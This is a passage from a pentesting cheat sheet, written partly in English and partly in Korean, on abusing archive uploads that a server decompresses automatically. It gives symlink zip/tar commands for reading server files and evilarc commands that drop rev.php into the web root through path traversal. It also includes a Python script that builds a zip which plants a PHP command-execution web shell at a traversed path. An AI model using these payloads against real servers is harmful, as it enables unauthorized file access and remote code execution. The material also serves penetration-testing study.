### Zip/Tar File Automatically decompressed Upload

If you can upload a ZIP that is going to be decompressed inside the server, you can do 2 things:

#### Symlink

Upload a link containing soft links to other files, then, accessing the decompressed files you will access the linked files:
```
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
tar -cvf test.tar symindex.txt
```
### 다른 폴더에 압축 해제

압축 해제 중 디렉토리에 파일이 예기치 않게 생성되는 것은 중요한 문제입니다. 이 설정이 악의적인 파일 업로드를 통한 OS 수준의 명령 실행을 방지할 것이라는 초기 가정에도 불구하고, ZIP 아카이브 형식의 계층적 압축 지원 및 디렉토리 탐색 기능이 악용될 수 있습니다. 이를 통해 공격자는 제한을 우회하고 대상 애플리케이션의 압축 해제 기능을 조작하여 안전한 업로드 디렉토리를 탈출할 수 있습니다.

이러한 파일을 생성하기 위한 자동화된 익스플로잇은 [**evilarc on GitHub**](https://github.com/ptoomey3/evilarc)에서 사용할 수 있습니다. 유틸리티는 다음과 같이 사용할 수 있습니다:
```python
# Listing available options
python2 evilarc.py -h
# Creating a malicious archive
python2 evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
추가적으로, **evilarc와 함께하는 symlink 트릭**은 옵션입니다. 목표가 `/flag.txt`와 같은 파일을 타겟으로 하는 경우, 해당 파일에 대한 symlink를 시스템에 생성해야 합니다. 이는 evilarc가 작동 중 오류를 겪지 않도록 보장합니다.

아래는 악성 zip 파일을 생성하는 데 사용되는 Python 코드의 예입니다:
```python
#!/usr/bin/python
import zipfile
from io import BytesIO

def create_zip():
f = BytesIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
**압축을 악용한 파일 스프레이**

자세한 내용은 **원본 게시물을 확인하세요**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)
